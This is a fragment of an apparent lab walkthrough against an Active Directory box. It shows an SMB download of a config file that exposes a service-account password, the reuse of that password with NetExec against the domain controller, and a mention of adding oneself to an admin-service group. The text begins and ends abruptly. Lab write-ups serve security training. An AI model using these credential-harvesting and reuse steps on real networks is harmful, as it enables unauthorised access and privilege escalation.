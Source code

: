                     7309822 blocks of size 4096. 846745 blocks available
    smb: \> get .sqlconfig 
    getting file \.sqlconfig of size 78 as .sqlconfig (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
look at this file
    ➜  sendai cat .sqlconfig
    Server=dc.sendai.vl,1433;Database=prod;User Id=sqlsvc;Password=SurenessBlob85;#

    ➜  sendai nxc smb DC -u sqlsvc -p 'SurenessBlob85' --shares
    SMB         10.10.65.237    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
    SMB         10.10.65.237    445    DC               [+] sendai.vl\sqlsvc:SurenessBl<redacted>

![alt text](<../assets/images/2 (3).png>)

so lets add urself at ADMSVC its because

![alt text](<../assets/images/3 (1).png>)
